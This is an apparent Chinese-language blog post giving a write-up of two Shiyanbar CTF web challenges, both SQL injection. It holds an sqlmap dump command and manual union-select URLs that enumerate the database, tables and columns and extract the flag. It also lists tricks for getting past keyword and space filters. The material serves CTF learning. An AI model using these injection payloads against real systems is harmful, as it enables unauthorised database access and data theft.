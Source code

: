 ```yaml
---

layout: post

title: "实验吧-CTF-WEB-WP"

author: "markt"

---
```


## [这个看起来有点简单!](http://www.shiyanbar.com/ctf/33)

直接上sqlmap爆破

sqlmap -u http://ctf5.shiyanbar.com/8/index.php?id=1 --batch --threads=10 --dump

或者手工注入：

判断注入：

http://ctf5.shiyanbar.com/8/index.php?id=1'

http://ctf5.shiyanbar.com/8/index.php?id=1 order by 2

http://ctf5.shiyanbar.com/8/index.php?id=1 order by 3

获取数据库，表，列：

http://ctf5.shiyanbar.com/8/index.php?id=1 union select 1,database()

http://ctf5.shiyanbar.com/8/index.php?id=1 union select 1,table_name from information_schema.tables where table_schema='my_db'

http://ctf5.shiyanbar.com/8/index.php?id=1 union select 1,column_name from information_schema.columns where table_name='thiskey'

查询：

http://ctf5.shiyanbar.com/8/index.php?id=1 union select 1,k0y from thiskey



## [简单的sql注入](http://ctf5.shiyanbar.com/423/web/)

字符注入，有错误回显，按理说应该不难，但是自己还是没试出来，sqlmap同样不出意外也没跑出来。

主要存在过滤：注释符号（不能愉快闭合'）；过滤查询关键字；过滤空格。

过滤关键字：

- 双写
- 大小写
- 编码（主要是符号）

过滤空格：

- 双空格
- 注释/**/
- 反引号`
- ++（连接字符串）
- （据说回车和制表符也可以？）
